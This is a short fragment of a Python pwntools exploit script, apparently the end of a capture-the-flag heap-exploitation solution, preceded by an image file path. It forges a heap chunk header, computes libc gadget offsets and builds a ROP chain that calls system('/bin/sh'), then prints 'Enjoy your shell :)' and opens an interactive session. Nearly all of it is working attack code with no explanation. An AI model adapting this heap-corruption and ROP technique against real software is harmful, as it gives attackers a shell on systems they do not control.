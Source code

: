 ``` py 
create(padd(int.to_bytes(37,1,'little')), '74',b'U'*0x28 + b'\x00'* 8 + p64(0x71)  +p64(ftakni_ga_not) )

pop_rdi_ret = libc_base +0x000000000002daa2
ret = libc_base + 0x000000000002d446
system = libc_base + 0x00000000004e320
bin_sh = libc_base + 0x1b4689


rop = p64(pop_rdi_ret)
rop += p64(bin_sh)
rop += p64(system)


create(padd(int.to_bytes(38,1,'little')), '96',b"N" *8 )
create(padd(int.to_bytes(40,1,'little')), '96',rop )
print("SUCCESS!")
print("Enjoy your shell :)")

p.interactive()

    
```
